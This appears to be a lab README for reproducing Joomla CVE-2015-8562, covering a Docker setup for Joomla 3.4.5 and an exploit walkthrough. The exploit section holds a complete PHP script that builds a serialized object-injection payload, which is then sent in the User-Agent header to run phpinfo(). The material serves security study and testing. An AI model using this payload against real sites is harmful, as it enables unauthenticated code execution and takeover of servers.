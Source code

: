 # Joomla HTTP Header Unauthenticated Remote Code Execution (CVE-2015-8562)

[中文版本(Chinese version)](README.zh-cn.md)

Joomla is a free and open-source content management system (CMS) that allows users to build websites and online applications. It was first released in 2005 and has since become one of the most popular CMS platforms, powering millions of websites around the world.

Joomla suffers from an unauthenticated remote code execution that affects all versions from 1.5.0 to 3.4.5. By storing user supplied headers in the databases session table it's possible to truncate the input by sending an 4-bytes UTF-8 character. The custom created payload is then executed once the session is read from the database. You also need to have a PHP version before 5.4.45 (including 5.3.x), 5.5.29 or 5.6.13.

References:

- <https://packetstormsecurity.com/files/134949/Joomla-HTTP-Header-Unauthenticated-Remote-Code-Execution.html>
- <https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html>

## Vulnerable Environment

Executing following command to start a Joomla 3.4.5:

```
docker-compose up -d
```

After the server is started, you can see the home page of it at `http://your-ip:8080`.

## Exploit

First of all, you need to send a request without User-Agent header and remember the Cookie in the response:

![](2.png)

Then use this script to generate a payload ([execute online](https://onlinephp.io/c/e824b)):

```php
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a); 

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```

![](1.png)

Put this craft payload into User-Agent header with Cookie obtained earlier then send request again. As you can see, our code `phpinfo()` is executed:

![](2.png)
